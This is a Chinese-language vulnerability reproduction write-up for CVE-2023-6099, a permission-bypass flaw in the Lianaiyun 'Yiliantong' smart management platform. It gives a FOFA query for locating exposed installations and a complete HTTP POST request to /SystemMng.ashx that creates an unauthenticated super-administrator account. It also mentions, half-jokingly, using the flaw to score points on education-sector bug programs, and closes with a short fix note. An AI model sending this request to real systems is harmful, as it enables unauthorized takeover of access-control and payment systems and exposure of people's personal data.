



# 优卡特脸爱云一脸通智慧管理平台权限绕过漏洞复现（CVE-2023-6099）

### 0x01 产品简介

   脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。

   功能包括：系统管理中心、人员信息管理中心、设备管理中心、消费管理子系统、订餐管理子系统、水控管理子系统、电控管理子系统、考勤管理子系统、门禁通道管理子系统、会议签到管理子系统、访客管理子系统

### 0x02 漏洞概述

  脸爱云一脸通智慧管理平台/SystemMng.ashx接口处存在权限绕过漏洞，通过输入00操纵参数operatorRole，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户，造成信息泄露和后台接管（edu刷分神洞）

### 0x03 影响范围

  version <=1.0.55.0.0.1

### 0x04 复现环境

FOFA：title=="欢迎使用脸爱云 一脸通智慧管理平台"



### 0x05 漏洞复现 

PoC

```cobol
POST /SystemMng.ashx HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

operatorName=test&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

 PS：成功创建了超级管理员 test/123456

登录后台验证

### 0x06 修复建议

关闭互联网暴露面接口设置访问权限

升级至安全版本
